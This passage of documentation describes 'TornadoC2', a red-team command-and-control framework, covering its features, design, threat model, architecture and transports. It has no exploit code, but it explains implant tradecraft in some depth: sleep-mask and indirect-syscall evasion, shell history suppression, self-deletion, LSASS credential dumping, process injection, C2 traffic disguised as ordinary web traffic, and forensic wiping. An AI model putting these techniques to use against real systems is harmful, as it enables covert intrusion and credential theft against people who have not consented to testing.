| **Scheduled task output retention** | `schedule add ... --keep N` opts a recurring task into keeping the last N run outputs in a server-side ring buffer · `schedule output <id> [<run>]` retrieves them · Kept outputs survive a handler restart · Zero means "keep nothing" and is the default, matching the pre-retention behaviour |
| **Multi-line command input** | `pyexec`, `psexec`, `shexec`, and `sh` all accept `--stdin` as their first argument · The client enters paste mode, accumulating lines until a line containing only `.` terminates the input · The script source is delivered to the target exactly as if it had been read from a file |
| **Webhook notifications** | Server-side notification dispatch to Slack, Discord, or Telegram · Fire-and-forget on a worker thread so a slow endpoint never stalls an operator request · Events: `new-beacon`, `kill-deadline`, `schedule-complete`, `beacon-identity-mismatch`, `beacon-signature-failure` · Per-webhook event filter and severity floor · Per-operator ownership — an operator sees and manages only the hooks they added; an admin (`webhooks.manage.admin`) sees and manages every hook · SSRF guard refuses loopback, private, link-local, multicast, reserved, and cloud-metadata destinations at registration time and again on every dispatch · Telegram hooks use HTML parse mode with payload-derived substrings escaped |
| **Team chat** | In-memory, per-process message room shared by every connected operator · Long-poll delivery · Rate-limited separately from the general API bucket · Every message written to the hash-chained audit log before the response returns · Broadcast messages, `/me` actions, direct messages, pinned topic line, poll-derived presence · `@mentions`, day separators, deterministic per-operator colors · Server-side `/chat/send`, `/chat/poll`, `/chat/history`, `/chat/who`, `/chat/topic` |
| **Chat file sharing** | Content-addressed blob store attached to the team chat room · The server stores and serves bytes only — it never opens, parses, sniffs, or executes a stored file · Storage path is `<sha256>` with no extension, no original name, and no user input anywhere in the path · Display name is persisted in a `<hash>.meta` sidecar so it survives a server restart · Three caps, all refuse rather than prune: 64 MiB per file, 2 GiB cumulative, 4096 files · Automatic deduplication by SHA-256 · Client verifies SHA-256 after download and refuses to write on mismatch · All four file endpoints consume a chat-bucket token · Every upload, download, delete, cap violation, and throttle is written to the audit chain under `chat.file` |
| **Loot store** | Content-addressed shared storage for files collected from beacons · Every verified `download` pushes the file to the server automatically; `--no-loot` opts out · `loot upload <local_path>` (alias `lootstore upload`) pushes a file that already exists on the operator's machine into the store under its SHA-256 · Any operator with `loot.use` retrieves by SHA-256 · Provenance carried in a `<hash>.meta` sidecar: source path, source beacon, uploader · Operators may delete only their own loot; admins may delete any, with an `override=admin` audit marker · Chunked upload path removes the per-file request-body limit — 128 GiB per file, 64 TiB cumulative, 32768 files, bounded by disk · Single-shot path for files ≤ 16 MiB · Capability granted to `operator` and `admin`; absent from `viewer` and `guardian` · Every operation written to the audit chain under `loot.*` |
| **Dead-man's switch** | Runtime-armable auto-shutdown watchdog · Held by the `guardian` role only — admins and every other remote role cannot reach the switch · Guardian sub-verbs: `arm`, `arm-until`, `reset`, `disable`, `warn`, `halt`, `shred` · Local console retains the same verbs · Persists to `team_ca/deadman.json` · Wipes the `TornadoC2` repository tree on shutdown · Eleven deletion modes across traditional overwrite patterns (`fast`, `random`, `dod`, `gutmann`, `nist`, `schneier`, `hmg`, `bsi`) and modern-media structural techniques (`trim` for TRIM/discard, `scrub` for prealloc + O_DIRECT + TRIM, `crypto` for LUKS header destruction) · Optional host `shutdown` or `reboot` · Manual trigger with the top-level `halt` command |
| **SOCKS5 pivot** | Client-side SOCKS5 listener on the operator's `127.0.0.1` · Tunnel carries bytes over the operator API to the team server · Team server bridges to a beacon dial-back on the pivot listener · Beacon opens the target connection from the target's network |
| **Session graph** | Engagement-wide view of which beacons share a user, domain, or subnet · Four render modes: `tree`, `flat`, `summary`, `path` · Data model drives a future HTML/SVG renderer |
| **Desktop notifications** | New beacon check-in, kill-deadline proximity, scheduled-task completion · Backends: `notify-send`, `terminal-notifier`, AppleScript, `ntfy.sh` |

**Not supported:** Interactive streaming sessions or plugin execution
over a live socket. These are deliberate omissions — the beacon's
design goal is a self-contained implant that survives network loss
and reboots, not a replacement for a live interactive C2. SOCKS5
pivoting is present but constrained to a beacon dial-back model: no
proxy without a live beacon, and no target-side listener.

---

## Design Philosophy

TornadoC2 is engineered for environments where the operator cannot
rely on a persistent connection. The design constraints that shape
every decision:

### Compile-time configuration

There is no runtime configuration. The callback URL, sleep interval,
working-hours window, kill date, C2 profile, TLS fingerprint, and
evasion set are all set at build time via `-ldflags`. The binary that
leaves the operator machine is the binary that runs. Nothing reads
from disk. Nothing reads from the environment. Nothing accepts
command-line arguments.

This is deliberate. A binary with its configuration baked in is
harder to pivot against than one that reads a config file. A defender
who finds the agent cannot change the callback URL to a sinkhole. An
operator who loses track of the binary cannot have the configuration
drift.

The cost is that rebuilding is the only way to change anything.
`beacon-build` handles this cleanly, with a wizard that walks through
every parameter, non-interactive flags for scripted builds, or a JSON
config file for repeatable builds.

### Startup-time configuration

The same principle applies one level up, on the handler side. C2
profiles are read once, when the handler starts, and never again.
The directory scan, the path registration, and the per-path shape
map are all one-time operations at boot. There is no file watcher,
no hot-reload, no "reload profiles" command on the console.

To add, change, or remove a profile, you stop the handler, edit the
directory, and start it again. That is the whole workflow.

**Why this is deliberate.** A profile is not just a fingerprint —
it is a set of routes the handler registers, a per-path dispatch
table, and a shape contract that every already-deployed agent was
built against. Changing a profile at runtime would silently
invalidate every agent built against the old version, with no
signal to the operator and no way for the beacon to know its
shapes no longer match. The failure mode would be a session that
stops receiving tasks with no error, which is worse than a
controlled restart.

**The restart is cheap.** The queue survives it. The session
registry survives it. Deployed beacons reconnect on their next
poll with a fresh cookie and receive their queued tasks — the
design philosophy calls this out under
[Queue-based execution](#queue-based-execution). A handler restart
is a normal operational event, not a disruption.

**The workflow.** Prepare the profile directory before you start
the handler. That is the moment to decide which fingerprints this
engagement will serve. Once the handler is running, the profile
set is fixed for the life of the process.

### Queue-based execution

The agent does not hold a socket. Every command the operator issues
is queued on the server, delivered on the beacon's next `/tasks`
poll, executed in-process or via a child, and the result is posted
back on the beacon's next `/results` call.

This means latency is bounded by the sleep interval. A 60-second
sleep gives a 60-second round trip on average. The console warns
about this. Operators who need immediacy set `sleep 0` — which does
not poll continuously, it polls with a 100 ms wall-clock delay to
avoid pegging the CPU.

The compensation is resilience. A network flap does not kill the
session; the agent retries on its next wake-up. A server restart does
not lose the queue; the listener reissues a fresh session ID on the
first check-in and the agent resumes polling.

### Artifact discipline on the target

The agent is designed to leave as little on disk as possible:

- Native verbs execute in-process — no `subprocess.Popen`, no
  `execve`, no auditd `SYSCALL.execve`, no Sysmon EventID 1. This
  includes the network verbs: `curl`, `resolve`, and `nc` all speak
  their protocols from the agent's own socket.
- Chunked transfer reads and writes through file handles held in the
  agent's own process, not through a helper binary.
- In-memory PE, ELF, and .NET assembly execution unlink the source
  file before invoking the payload. `execute-assembly` never writes
  the assembly to disk in the first place.
- Inline scripts pipe the source through stdin to the interpreter.
- Extensions are pushed as base64 over the C2 channel, decoded in
  memory, and handed to a WASM interpreter. No file. No `PROT_EXEC`
  page. No syscall reachable from inside the module.
- Staged payloads never touch disk on Linux; on Windows they are
  unlinked the moment the child process exits.
- On kill or kill-deadline, the agent unlinks its own on-disk binary
  before exiting.

Where the agent has to write to disk — a chunked upload — the
artifacts are transient and the operator owns the cleanup.

**One exception, stated plainly.** Every native verb above runs
in-process, without a subprocess, and without a signal that a
general process-creation monitor would notice. `lsassdump` is the
one verb where that distinction is preserved but the operation
itself is the signature: LSASS ProcessAccess events, the
`MiniDumpWriteDump` import against a protected process, and the
`NtCreateProcessEx`-from-LSASS-address-space pattern are each
independently high-signal on hosts with EDR. The verb runs through
`syscall` with no child process and no PowerShell — the framework's
process model claim is intact — but the operator takes the risk of
the action when they type the verb. See
[LSASS minidump](#lsass-minidump) for the honest scope.

### Graceful degradation

Every failure mode has a defined behaviour. A check-in that fails
retries with exponential backoff. A task poll that returns 400/404
triggers a fresh check-in. A signature verification failure drops the
task silently (or with a verbose diagnostic) rather than executing
unsafe work. A listener that dies takes the daemon thread with it and
the handler exits cleanly.

### Encryption without loss of auditability

The wire encryption and malleable shaping features add confidentiality
without weakening authentication. The ECDSA task signature still
covers the plaintext task; a MITM who terminates TLS and decrypts the
wire envelope still cannot forge a task without the server's private
key. The two layers are independent.

### Contribution paths with no core coupling

The framework is designed so that its most important extension
surfaces can be reached by people who have never read the engine
code. This section covers two of them — transports and profiles —
in detail; the third, WASM extensions, is covered under
[Adding a WASM extension](#adding-a-wasm-extension) and summarised
alongside the other two in
[The contribution-path summary](#the-contribution-path-summary).

**Adding a transport is two classes plus mechanical glue.** A new
transport is one Python listener class and one Go client class,
both inheriting from the existing base classes. Those two classes
hold the entire design: wire parsing, chunking, reassembly,
session handling, error paths. The engine does not know which
transport carried a frame; the agent does not know how the
listener terminated the socket. `beacon/listener.py`,
`engine.py`, and the agent's verb dispatch are all
transport-agnostic.

Around the two classes sits a small amount of mechanical glue
that follows the same template for every transport: a config
struct field on the agent, a package var, one `case` in the
agent's dispatch switch, a linker-flag receiver and copy in the
stageless build, the builder's per-transport validation and flag
emission, the remote build manager's parameter pass-through, and
the handler's CLI flag and listener-startup call. Every one of
those edits is a name-swap of the same template — there is no
dispatch table, no engine code, and no operator-client change.
The client talks to the server API; the transport is a
server-to-agent concern.

This matters because it lowers the barrier to contribution to
the parts that actually require engineering. A researcher who
discovers a new egress path can implement it in a weekend: the
two classes are the design work, and the glue is predictable
plumbing. Compare that to Cobalt Strike, where transports are
closed-source and cannot be added; Sliver, where adding one
requires modifying the core transport registry and the agent's
transport dispatch; or Mythic, where each C2 profile is a full
Docker container that has to speak an RPC protocol. The
two-class-plus-glue model is the lightest contribution path of
any C2 framework currently available.

**Adding a C2 profile is one JSON file.** A new profile is a JSON
document under `profiles/c2/`. Drop it in, restart the handler, and
every operator on the team can build against it immediately. There
is no separate infrastructure and no coordination with whoever runs
the team server. The restart is required — profiles are read once at
startup and never reloaded, for the reasons described under
[Startup-time configuration](#startup-time-configuration). The
profile system is described in full under
[C2 Profiles](#c2-profiles), but the design consequence is worth
stating here: profile authoring is a per-operator activity, not a
team-server-wide decision.

### Concurrent multi-profile handlers

A consequence of the path-based dispatch described under
[C2 Profiles](#c2-profiles): a single handler serves every profile
under `profiles/c2/` at once. A beacon built against a `chrome`
profile and a beacon built against a `slack` profile reach the same
listener, on the same port, on the same certificate. Each request
is routed to the profile that declared its path, and each response
is shaped by that profile.

There is no "active profile" state on the handler. The path *is* the
profile. This is different from every other C2 framework in the
field, all of which bind a single profile per team server and
require a restart (or a second server on a second port) to change
it. The operational consequences are concrete:

- **Different beacons, different fingerprints, one handler.**
  A stealth beacon on a high-value target and a noisy beacon on a
  throwaway host can use different profiles without running two
  servers.
- **Profile rotation without re-architecting.** If a path starts
  getting flagged, new agents can be built against a different
  profile while old agents keep running against the old one.
- **Team-scale experimentation.** Anyone on the team can drop a
  JSON file into `profiles/c2/`, restart the handler, and build
  against it. There is no hot-reload — profiles are read once, at
  startup. See
  [Startup-time configuration](#startup-time-configuration) above
  for why this is deliberate.

The architecture scales to any number of profiles. Startup cost is
one directory scan and one route registration per profile; runtime
cost is an O(1) path lookup per request. Thirty profiles ship
in-tree; a thousand would not change the model.

### Profile paths as first-class routing

The mechanism is worth stating explicitly because it is easy to miss.
Every profile declares three paths — `beacon_path`, `tasks_path`,
and `results_path` — and the handler registers each path as a route
on the Flask app at startup. When a request arrives on
`/api/v1/analytics/collect`, the handler looks up that path in the
per-profile route map, finds the `chrome` profile that declared it,
and applies the `chrome` profile's shape to the response. When a
request arrives on `/api/client.connect`, the handler finds the
`slack` profile and applies its shape instead.

The agent does not tell the server which profile it is using. It
does not need to. The path it uses is the profile it was built
against, embedded at build time from the same JSON the handler
parsed at startup. The two sides agree on the mapping because they
read the same file.

This is why the profile authoring rules enforce distinct paths per
role and per profile: a path collision would be an ambiguous
dispatch. The handler refuses a profile whose paths collide with an
already-loaded profile's paths, so the routing table is always
unambiguous.

---

## Operational Security

Every evasion feature is **compile-time only**. There is no
configuration file on the target, no environment variable, no
registry key. A captured binary contains everything it needs to run.

### Cryptographic guarantees

- **ECDSA P-256 signing** on every task (server → agent), every
  result (agent → server), and every check-in identity.
- **P-256 ECDH** key agreement for wire encryption. The server's
  public key is embedded in the agent at build time; the agent's
  ephemeral keypair is fresh per check-in.
- **AES-256-GCM** authenticated encryption on every request and
  response body when the agent was built with the wire encryption
  key embedded.
- **Cookie-based session tokens** with HMAC proof.
- **Signature verification** on both sides.

### Traffic shaping

- **Response padding.** Both `/beacon` and `/tasks` responses are
  padded to a random bucket size.
- **Malleable bodies.** A profile's `shaping` block wraps the payload
  in a fake-but-valid JSON structure, with a selectable per-shape
  encoding (`base64`, `base64url`, `hex`, NetBIOS-style) and a
  selectable per-shape placement (body, response header, cookie).
- **Malleable envelope metadata.** A profile can declare per-role
  HTTP status codes, the session cookie name, and additional
  response headers a real server would send. Every HTTP-shaped
  response the listener emits uses these values verbatim.
- **Malleable DNS labels.** A profile's `dns_label` block renames
  the three DNS verb characters and changes the per-chunk payload
  length. Both the Go client and the Python listener read the same
  block, so a proxy sees a query shape that matches the profile
  rather than the framework's historical `b`/`t`/`r` layout.
- **Jittered first check-in.** The initial beacon fires 2–17 seconds
  after launch.
- **Jittered subsequent check-ins.** Each interval is stretched by a
  configurable jitter factor (default 0.3).
- **Chunk size jitter.** File transfer chunk sizes vary within
  `[base/2, base]`.
- **Working-hours window.** The agent suppresses check-ins outside a
  configured window.

### Execution discipline

- **Native in-process execution** for `cat`, `ls`, `ps`, `id`,
  `env`, `pwd`, `whoami`, `hostname`, `uname`, and the utility and
  network verbs listed in [Native Commands](#native-commands).
- **Command obfuscation via stdin-piped shells.**
- **Shell history suppression.** Any child shell inherits
  `HISTFILE=/dev/null`, `HISTSIZE=0`, `HISTCONTROL=ignorespace`,
  `HISTIGNORE=*`.
- **`exec` is the escape hatch.** When the literal argv matters,
  `exec` runs the target binary as a direct child.
- **`execute-assembly` never touches disk.** Donut runs on the
  server; the shellcode is decoded into an RWX page and threaded.

### Sleep mask and indirect syscalls

Four sleep mask modes ship in the tree. The mode is selected at
build time with `--sleep-mask <name>` or the `sleep_mask` field in
a JSON build config. Every mode generates a fresh key on every
sleep cycle, so two consecutive sleeps never produce the same
ciphertext.

**`rc4` and `aes-ctr` — Linux and Windows.** The agent locates the
executable segment, flips it to read/write with `VirtualProtect`
on Windows or `mprotect` on Linux, encrypts the region above a
fixed tail with a per-cycle key, sets the region back to
read/execute, and calls a native sleep stub that does not enter
the Go runtime. On return, the segment is decrypted and restored.

Both modes leave a fixed tail of the executable segment
unencrypted because the sleep stub lives there. The Go linker
places functions in a stable-enough order that the check at
runtime refuses the build if the stub lands outside the tail; the
build error names the function and the tail bounds. Do not
increase the mask coverage by removing the check — it is the only
thing turning an unexplained crash into an actionable error.

**`cronos` — Windows amd64 only.** The agent converts its calling
thread to a fiber, creates a second fiber whose entry point is a
native function, encrypts the executable segment and the primary
fiber's stack region, and switches to the encrypt fiber. That
fiber performs the wait directly and switches back. The Go
runtime never sees the encrypted window, because the encrypt fiber
runs on a stack the runtime does not know about and does not call
back into Go.

**`hwbp` — Windows amd64 only.** The agent installs a Vectored
Exception Handler and sets DR0 to the entry point of
`NtWaitForSingleObject`. When the beacon thread enters the wait,
the CPU raises a `#DB` exception before the first instruction of
the target function executes. The VEH — a native assembly
function, not a Go callback — encrypts the executable segment and
the calling thread's stack region, performs the wait via a direct
syscall, decrypts, and adjusts `RIP` to return past the
breakpoint. No timer, no APC, no new thread, and no kernel event
that a detection rule can pattern on.

**The goroutine stack is not encrypted.** All four modes encrypt
the executable segment. None of them encrypt the goroutine stack,
because the Go runtime may be preempted by a `SIGURG`-delivered
async signal at any point during the sleep, and the runtime's
signal handler walks the stack. Encrypting a stack the handler
needs to walk crashes the process. The limitation is documented
in `currentStackRegion` in `agent/evasion/sleepmask_stack_windows.go`
and is the same for every sleep-mask design that runs on the Go
runtime.

- **Indirect syscalls.** On Windows, the agent reads the system
  service number out of the ntdll stub without executing it, then
  jumps directly to the `syscall` instruction inside ntdll.

### Self-deletion

On kill or kill-deadline:

- **Linux.** `os.Remove("/proc/self/exe")` unlinks the binary.
- **Windows.** The file is opened with `FILE_FLAG_DELETE_ON_CLOSE`.
- **Best-effort.** A page of `.text` is zeroed before exit.

### Extensions

- **Sandboxed WASM.** Extensions load into a wazero interpreter.
- **Four host functions, all read-only or write-only.**
- **No binary hash change.** The agent binary is identical with zero
  extensions loaded and with fifty.

### Compile-time OPSEC profiles

Every evasion feature bundles into a named profile selected at build
time. `stealth`, `opsec`, and `paranoid` cover progressively more
aggressive combinations.

### What this tool does not claim

TornadoC2 does **not** claim to evade EDR, AMSI, ScriptBlock
logging, memory forensics, or TLS fingerprinting.

The sleep mask is not an EDR bypass. It encrypts the executable
segment during the wait, which raises the cost of a memory scan
that runs while the beacon is asleep. It does not hide the
beacon's presence from a scanner that runs while the beacon is
awake, and it does not encrypt the goroutine stack — the call
chain and local variables remain readable in the moments between
check-ins. The Windows `cronos` and `hwbp` modes avoid the kernel
timer and APC artifacts,  but the `cronos` fiber API and the 
`hwbp` debug-register writes are themselves observable. `hwbp`
in particular touches `DR0` and `DR7`, and a security product 
that watches debug-register state will see the writes.

The HTTP transport's uTLS ClientHello mimicry does not carry over to
**QUIC** or **WireGuard**. Both are explicitly listed below because
the failure mode is easy to miss: the `--tls-profile` build flag is
accepted by the builder for every transport, but not every transport
applies the profile at runtime.

- **QUIC** composes its own TLS 1.3 ClientHello inside the QUIC
  Initial packet. Go's QUIC stack does not accept a uTLS dialer, so
  the profile cannot be applied even in principle without replacing
  the QUIC library.
- **WebSocket** uses the Go standard library's `crypto/tls` by
  default but honours `--tls-profile` when a browser profile is
  selected. The WebSocket dialer is fed an `*http.Client` whose
  transport performs the TLS handshake through the same
  `tlsfp.NewHTTPClient` helper the HTTP transport uses, so the
  ClientHello a network observer sees on a WebSocket handshake
  matches the profile the operator selected. On a `--tls-profile go`
  build the ClientHello is the standard library's.
- **WireGuard** carries a TLS connection inside the tunnel. The
  fingerprint is not visible on the public wire — a network
  observer sees only the WireGuard handshake — so the uTLS profile
  is unnecessary rather than impossible. The current implementation
  uses the standard library for the inner connection.

**APC injection does not defeat EDR.** The `migrate <pid> --method
apc` path removes the `CreateRemoteThread` event, but
`NtQueueApcThread` is itself instrumented by every major EDR vendor,
and a shellcode frame appearing on a thread whose start address is
not backed by a file on disk is exactly the shape a stack-walking
detection looks for. The technique is a signal change, not a signal
removal. It raises the cost of a pattern-match against
`CreateRemoteThread` specifically; it does not hide the injection
from a product that watches the QueueApcThread → alertable-wait →
execute sequence as a unit. An operator who needs to inject without
any of these artifacts is asking for a capability that no userland
technique provides.

The `--method apc` path is also Windows-only, and the build refuses
it on any other target rather than falling back silently. A Linux
engagement uses the `ptrace` backend, which has its own signal
profile — auditd's `SYSCALL.ptrace` event, if configured, fires on
every injection.

The framework also does not claim to hide the WireGuard protocol.
A WireGuard handshake is one of the most distinctive exchanges in
modern network traffic — the fixed message-type bytes, the
handshake initiation and response timing, the cookie reply under
load — and any network monitor with a WireGuard fingerprint in its
detection set will flag the tunnel on the first packet. WireGuard
protects the *content* of the tunnel; it does not hide the fact
that a WireGuard tunnel exists.

The WebSocket transport's handshake is a legitimate TLS handshake
that a passive observer cannot distinguish from any other WebSocket
connection. It does not hide the SNI in the ClientHello, and it does
not protect against a proxy that terminates the WebSocket upgrade
and inspects frames; the wire encryption inside each frame is what
protects the C2 protocol's content in that case.

---

## Threat Model

TornadoC2 is built for red-team engagements against competent,
monitored targets. The threat model distinguishes what the framework
protects against, what it explicitly does not, and what it can
never protect against.

### The adversary

| Adversary | Capability | Framework response |
|-----------|-----------|---------------------|
| Passive network observer | Reads bytes on the wire | AES-256-GCM wire envelope; TLS to a pinned CA |
| TLS-terminating MITM | Terminates and inspects HTTPS | Task signing; the wire envelope is a second layer |
| EDR / AV on the target | Inspects process, memory, disk | Compile-time OPSEC profiles; in-process verbs; sleep mask; indirect syscalls |
| Forensic analyst after the fact | Reads the disk, the memory, the logs | Self-deletion; kill deadline; dead-man's switch |
| Another operator on the team server | Has an operator credential | RBAC; audit chain; per-beacon ownership rules |
| Hostile operator with a valid credential | Same as above | The audit chain is the record; there is no hiding |

### What the framework protects against

- **Passive wire inspection.** AES-GCM wire encryption plus TLS.
- **Task injection by a MITM.** ECDSA task signing; the server's key is required to forge a task.
- **First-contact impersonation on plaintext builds.** ECDSA identity signing at check-in.
- **Hostile proxy inspection of C2 traffic.** C2 profile shaping wraps the payload in a plausible analytics response, with selectable encoding, placement, status codes, cookie name, and additional response headers. The DNS label layout is also profile-controlled.
- **Another operator stepping on your queued task.** Owner-restricted cancel; the audit chain records the attempt.
- **Another operator listing or deleting your webhooks.** Per-operator ownership; a non-admin can only reach hooks they added. The audit chain records the attempt under `webhooks.remove` / `webhooks.test` with `outcome=denied`.
- **A captured beacon being replayed as a real one.** ECDSA identity pinning at first contact; a check-in presenting a different public key for a known fingerprint is refused and fires `beacon-identity-mismatch`.
- **A forged result injecting into a task.** ECDSA result signing with trust-on-first-use pinning; a signature failure is refused, counted on the session, and fires `beacon-signature-failure`.
- **A stolen operator config used after the fact.** 12-hour session TTL; cookie rotation.

### What it does not protect against

- **EDR.** The README is explicit: the framework does not claim to
  evade EDR, AMSI, ScriptBlock logging, memory forensics, or QUIC
  ClientHello fingerprinting. `migrate <pid>` leaves process-tree
  artifacts that EDR sees. `lsassdump` leaves the artefact the
  operation itself is defined by — a `ProcessAccess` event on LSASS,
  a `MiniDumpWriteDump` import in the beacon's own image, or a
  `NtCreateProcessEx` from LSASS's address space, depending on the
  technique the verb falls through to.
- **A compromised team server.** An attacker with root on the team server has the keys, the configs, and the ability to forge anything. Full-disk encryption and physical control are the only mitigations.
- **A leaked operator password.** The password HMAC protects against a leaked `.cfg`. An operator who leaks both the config and the password is compromised.
- **An operator who copies what they see.** Chat is a transport, not a control.
- **Modern-media secure erasure.** The dead-man's switch is best-effort. On SSDs, NVMe, and CoW filesystems, the only reliable mechanisms are `crypto` mode (LUKS header destruction), ATA Secure Erase, or physical destruction.
- **Physical seizure of a running machine.** Full-disk encryption and the dead-man's switch are the only mitigations, and both fail against an attacker with physical presence and no time pressure.

### What no software can protect against

Stated so the above is read with the right scope:

- **A compromised operator machine.** If the operator's workstation is owned, everything the operator can do, the attacker can do.
- **An operator who is the adversary.** The framework assumes the team is on the same side.
- **A target with no exploitable network path.** A beacon needs at least one transport to reach the team server.

---

## Architecture

```text
┌────────────────────────────────────────────────────────────────┐
│                    Operator Console (handler)                  │
│   Beacon sessions · Task queue · Extension push · Logging      │
│    beacon-build · c2-profiles · bofs · deadman · halt          │
└─────────────────────────────┬──────────────────────────────────┘
                              │
                    ┌─────────┴──────────┐
                    │   Beacon Engine    │
                    │  (registry + queue)│
                    └─────────┬──────────┘
                              │
        ┌─────────────────────┼─────────────────────┐
        │                     │                     │
   POST /beacon          GET /tasks            POST /results
   POST /stage/<n>       (shared across every transport)
        │                     │                     │
        ▼                     ▼                     ▼
┌───────────────────────────────────────────────────────────────────────┐
│                       Transport Layer                                 │
│  ┌────────┐ ┌──────┐ ┌──────┐ ┌──────┐ ┌──────┐                        │
│  │ HTTPS  │ │ QUIC │ │ DNS  │ │ DoH  │ │ ICMP │                        │
│  │(direct)│ │(dir.)│ │(dir.)│ │(dir.)│ │(dir.)│                        │
│  └────────┘ └──────┘ └──────┘ └──────┘ └──────┘                        │
│  ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐               │
│  │WebSock.│ │WireGu. │ │SMB piv.│ │TCP bind│ │TCP rev.│               │
│  │(direct)│ │(direct)│ │(parent)│ │(child) │ │(parent)│               │
│  └────────┘ └────────┘ └────────┘ └────────┘ └────────┘               │
└───────────────────────────────────────────────────────────────────────┘
        │                     │                     │
        ▼                     ▼                     ▼
┌──────────────────────────────────────────────────────────────┐
│                       Target Hosts                           │
│  Direct beacon · Pivoted child · Both, in one deployment     │
└──────────────────────────────────────────────────────────────┘
```

### Session lifecycle

A beacon session is identified by a **fingerprint** derived from the
machine ID, hostname, username, OS, and (when set) the identity role
reported at check-in. The fingerprint is stable across reboots and
reconnects but unique per machine. It does **not** include the
identity signature or timestamp — those are per-check-in values, not
per-machine.

The **identity role** is an optional build-time string that
disambiguates two agents which would otherwise share a fingerprint.
Two agents built from the same tree, run on the same host, under the
same user, report identical `machine_id` / `hostname` / `username` /
`os` tuples and resolve to one session, one cookie, one task queue,
and one row in the beacon list. Setting a role gives each its own
session.

The builder defaults the role for the three pivot child transports:

| Transport | Default role |
|---|---|
| `smb` | `smb-child` |
| `tcp` | `tcp-bind` |
| `tcprev` | `tcp-rev` |

Every other build defaults to an empty role, which reproduces the
pre-role fingerprint exactly — an agent built without a role checks
in as it always did, and no deployed session is invalidated by the
field's existence. An operator who wants a role on a non-pivot
build, or who wants a name other than the transport default, sets
it explicitly with `--identity-role <name>` on `beacon-build` or
`"identity_role": "<name>"` in a JSON build config.

The role travels in its own field on the wire (not in the
hostname), so the beacon list continues to show the machine's real
hostname. It is a fingerprint input, not a display name.

On first check-in, the engine:

1. Looks up the fingerprint in the registry.
2. If new, creates a session with a fresh monotonic ID (starting
   at 1000).
3. Verifies the check-in's identity signature against the presented
   public key. If the signature is missing, falls back to
   trust-on-first-use with a warning. If the signature is present
   but invalid, the check-in is rejected.
4. Pins the agent's public key if one was presented.
5. Issues an HMAC-signed cookie only if the session does not already
   have one. It does **not** rotate the cookie on every check-in;
   explicit rotation is available through `rotate-cookies`.
6. Returns the session ID, current scheduling parameters, kill
   deadline, and cookie.

The cookie behaviour is deliberate. A parent and a child in a
same-host pivot share the same `machine_id` / `hostname` /
`username` / `os` tuple unless the child carries a non-empty
`identity_role`, and even with distinct roles the two can transiently
present the same session under a fast reconnect. Rotating on every
check-in meant that the second of the two — parent or child — would
invalidate the other's cookie on each cycle, producing a 404 on the
next `/tasks` poll for whichever side had not just checked in. The
cookie is now stable for the life of a session. An operator who
believes a cookie has leaked runs `rotate-cookies` from the local
console; the rotation invalidates every cached cookie at once and is
audited.

A background reaper thread runs every 5 minutes and forgets sessions
that have been silent for `100 × BEACON_TTL_FACTOR × sleep` seconds.
For a 60-second sleep that is roughly 6.7 hours; for a 1-hour sleep,
27 days.

### Certificate generation

On first launch the handler creates the key directories and
bootstraps the material it needs:

```text
tls_certs/
  server.pem          # self-signed server certificate
  server.key          # server private key

mtls_certs/
  ca.pem              # mTLS certificate authority
  ca.key              # CA private key
  server-mtls.pem     # server cert signed by CA
  server-mtls.key     # server private key
  client.pem          # client cert signed by CA — embed in the agent
  client.key          # client private key  — embed in the agent

.keys/
  server/               # 0700
    handler_signing.key # ECDSA P-256 private key for task signing
    server_ecdh.key     # ECDSA P-256 private key for wire encryption
  agent/                # 0700
    agent_signing.key   # ECDSA P-256 private key for result signing

team_ca/
  ca.pem                # team CA (operator mTLS)
  ca.key
  server.pem            # operator listener server cert
  server.key
  operators.json        # registry — 0600
  operators/<name>/     # per-operator cert, key, exported config
  deadman.json          # dead-man's switch config — 0600

bofs/                   # registered BOF blobs — 0700
  <name>.o              # raw COFF bytes — 0600

logs/
  .tornadoc2_bofs.json   # BOF registry metadata — 0600
  audit/                    # hash-chained operator audit log
  chat/                     # chat mirror and file store
  lootstore/                # loot store
  aliases.json              # per-beacon alias and tag store — 0600
  creds.json                # credential vault — 0600
  notes.json                # engagement-wide notes — 0600
  bnotes/                   # per-beacon notes — 0700
    <bid>.json              # one file per beacon — 0600
  webhooks.json             # webhook registry — 0600
```

The `.keys/server/` and `.keys/agent/` split is deliberate. A single
misconfigured backup now has to reach two directories instead of one,
and each compromise is legible in an audit trail: a leaked
`agent_signing.key` forges results; a leaked `handler_signing.key`
forges tasks; a leaked `server_ecdh.key` decrypts wire traffic when
paired with a captured ephemeral pubkey.

The bootstrap is **all-or-nothing per bundle**: if every expected file
for a bundle already exists, generation is skipped; if any single
file is missing, the entire bundle is regenerated. If OpenSSL is not
on `PATH`, the handler exits during first-run certificate generation.

---

## Transports

The engine is transport-agnostic. Ten transports ship in-tree.

### HTTP (default)

`beacon/listener.py` — `BeaconListener`. Runs on `--beacon-port`,
terminates TLS, reuses the handler's certificate material. ALPN
advertises only `http/1.1` because Werkzeug cannot parse the HTTP/2
preface. The Go client is configured to fall back cleanly.

A per-source-IP token bucket wraps the WSGI app before Flask routes
the request. The bucket allows 30 requests per second sustained with
a 100-request burst; a single misbehaving host is throttled with a
429 without affecting other beacons. The state map is pruned every
two minutes, dropping entries idle for more than ten minutes.

Endpoints served:

| Endpoint | Method | Purpose |
|----------|--------|---------|
| `/beacon` | POST | Check-in |
| `/tasks` | GET | Poll for work |
| `/results` | POST | Upload output |
| `/stage/<name>` | GET | Serve a staged payload |

### QUIC / HTTP/3

`beacon/transport/quic.py` (server) — `QUICListener`. Runs on
`--beacon-quic-port`, terminates TLS 1.3 itself, and serves the same
three endpoints as the HTTP listener — `/beacon`, `/tasks`,
`/results`, and `/stage/<name>` — over HTTP/3 streams. The listener
subclasses `BeaconListener`, so it shares the same Flask app, the
same C2-profile route auto-discovery, the same wire-envelope
handling, and the same session-cookie logic. Only the socket
underneath differs.

**When to use it.** A network policy that permits UDP/443 — because
the enterprise's own Chrome and Edge clients need it for HTTP/3 —
but blocks or proxies direct TCP/443. QUIC is the only transport in
the set that reaches that network class without going through the
proxy.

**Requirements:**

- `aioquic` on the handler (`pip install aioquic`). The listener
  refuses to start without it, logs a clear refusal, and leaves the
  other transports running.
- `github.com/quic-go/quic-go` in the agent's `go.mod`. The builder
  pulls it in on first use; run `go mod tidy` inside `agent/` after
  adding the transport.
- The agent's `transport_mode` must be `quic` alone. In this version,
  QUIC cannot be combined with another transport in the same binary.
  The reason is that the failover ring is built around the HTTP
  transport's headers — QUIC and HTTP both speak the same protocol
  over a different socket, but they have different session-cookie
  handling paths, and mixing them was not worth the complexity.
